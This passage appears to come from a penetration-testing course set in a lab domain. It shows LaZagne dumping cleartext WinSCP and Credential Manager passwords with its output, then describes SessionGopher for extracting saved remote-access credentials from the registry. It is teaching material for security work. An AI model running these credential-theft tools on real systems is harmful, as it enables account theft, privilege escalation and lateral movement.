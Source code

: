 ### Running All LaZagne Modules

As we can see, there are many modules available to us. Running the tool with `all`
 will search for supported applications and return any discovered 
cleartext credentials. As we can see from the example below, many 
applications do not store credentials securely (best never to store 
credentials, period!). They can easily be retrieved and used to escalate
 privileges locally, move on to another system, or access sensitive 
data.

Further Credential Theft

```powershell
PS C:\htb> .\lazagne.exe all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

########## User: jordan ##########------------------- Winscp passwords -----------------

[+] Password found !!!
URL: transfer.inlanefreight.local
Login: root
Password: Summer2020!
Port: 22

------------------- Credman passwords -----------------

[+] Password found !!!
URL: dev01.dev.inlanefreight.local
Login: jordan_adm
Password: ! Q A Z z a q 1

[+] 2 passwords have been found.

For more information launch it again with the -v option

elapsed time = 5.50499987602

```

---

## Even More Fun with Credentials

We can use [SessionGopher](https://github.com/Arvanaghi/SessionGopher)
 to extract saved PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP 
credentials. The tool is written in PowerShell and searches for and 
decrypts saved login information for remote access tools. It can be run 
locally or remotely. It searches the `HKEY_USERS` hive for 
all users who have logged into a domain-joined (or standalone) host and 
searches for and decrypts any saved session information it can find. It 
can also be run to search drives for PuTTY private key files (.ppk), 
Remote Desktop (.rdp), and RSA (.sdtid) files.
